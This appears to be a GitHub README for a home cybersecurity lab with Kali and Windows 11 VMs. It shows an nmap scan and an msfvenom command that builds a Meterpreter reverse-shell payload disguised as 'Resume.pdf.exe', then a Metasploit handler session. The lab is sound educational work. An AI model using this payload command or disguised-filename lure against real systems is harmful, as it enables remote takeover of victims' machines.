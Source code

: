 # Home Cybersecurity Lab (Kali + Windows)

This is a local virtual cybersecurity lab built using Parallels on a Mac M2 machine. It demonstrates real-world attacker-defender scenarios in a controlled environment using Kali Linux and Windows 11.

---

## Lab Setup

- Kali Linux 2024.2 ARM64 (Parallels VM)
- Windows 11 VM
- Parallels Bridged Network (Default Adapter)
- Mac M2 Host Machine
- All traffic remains **within the local environment
- Internal IP addresses are partially masked (e.g., `192.168.20.xxx`)


## Tools Used

| Tool         | Role                                     |
|--------------|------------------------------------------|
| `nmap`       | Network discovery & port scanning        |
| `msfvenom`   | Payload generation                        |
| `msfconsole` | Exploitation and Meterpreter session     |
| `netstat`    | Viewing network connections on target    |
| `Splunk`     | Log analysis and monitoring (optional)   |

---

## Lab Activities

### 1. Network Discovery

Performed an aggressive Nmap scan from Kali to discover open ports and services on the Windows VM.

```bash
nmap -A 192.168.20.xxx
```

### 2. Payload Creation

Created a reverse shell payload using `msfvenom` to simulate phishing or social engineering attack:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.20.xxx LPORT=4444 -f exe -o Resume.pdf.exe
```

### 3. Exploitation with Metasploit

- Launched `msfconsole` on Kali
- Used `exploit/multi/handler` to receive the reverse shell
- Executed payload on Windows
- Gained a `meterpreter` session

### 4. Session Monitoring

Confirmed backdoor connection via:

```bash
netstat -ano
```

Monitored which processes were using the TCP ports.

---

##  Screenshots

> All IPs are partially masked (last octet hidden)

- Nmap scanning results
- Payload generation (msfvenom)
- Meterpreter session capture
- Netstat verification on Windows
- Ping test between Kali and Windows
- Network adapter settings in Parallels
- Splunk log activity (if used)

---

## Files

Screenshots are organized in the `/screenshots` folder, numbered by step.

---

## Notes

- This project was done on an isolated, local environment using only internal IPs.
- No real or public systems were targeted.
- For educational and ethical hacking purposes only.

---

## Future Improvements

- Automate log collection with Splunk
- Add IDS/IPS monitoring
- Simulate lateral movement or privilege escalation
- Expand to include Linux server or vulnerable VM (e.g., Metasploitable)

---

## Legal Disclaimer

This project is intended strictly for learning and simulation in a controlled lab setup. Do not replicate any part of this on networks or machines without explicit permission.
